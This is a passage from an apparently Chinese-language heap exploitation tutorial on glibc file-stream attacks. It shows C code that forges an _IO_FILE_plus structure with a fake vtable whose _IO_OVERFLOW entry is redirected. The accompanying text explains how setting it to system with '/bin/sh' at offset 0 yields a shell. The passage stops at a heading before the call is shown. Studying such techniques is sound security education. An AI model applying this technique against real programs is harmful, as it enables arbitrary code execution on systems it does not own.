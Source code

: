 ```bash
/*
  1. Set mode to 0: fp->_mode <= 0
*/

fp->_mode = 0; // top+0xc0


/*
  2. Set write_base to 2 and write_ptr to 3: fp->_IO_write_ptr > fp->_IO_write_base
*/

fp->_IO_write_base = (char *) 2; // top+0x20
fp->_IO_write_ptr = (char *) 3; // top+0x28


/*
  4) Finally set the jump table to controlled memory and place system there.
  The jump table pointer is right after the FILE struct:
  base_address+sizeof(FILE) = jump_table

     4-a)  _IO_OVERFLOW  calls the ptr at offset 3: jump_table+0x18 == winner
*/

size_t *jump_table = &top[12]; // controlled memory
jump_table[3] = (size_t) &winner;
*(size_t *) ((size_t) fp + sizeof(FILE)) = (size_t) jump_table; // top+0xd8
```

这段代码便是用来伪造一个 IO\_file\_list 结构体，具体效果是这样的

[![](assets/1701606938-ebbf30071683d5a55cad36be8d4bf2c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231014201456-499dc892-6a8b-1.png)

这样修改的目的：

在堆中伪造一个 IO\_FILE\_plus 结构体，将 IO\_FILE\_plus.vtable 中 IO\_OVERFLOW 的函数指针修改为 system 函数，IO\_FILE 结构体 0 字节偏移处改写为"sh"、“/bin/sh”或者“$”，这时候如果调用了函数 IO\_OVERFLOW(fp,EOF) 就相当于调用 system("/bin/sh")，即 getshell

调用：
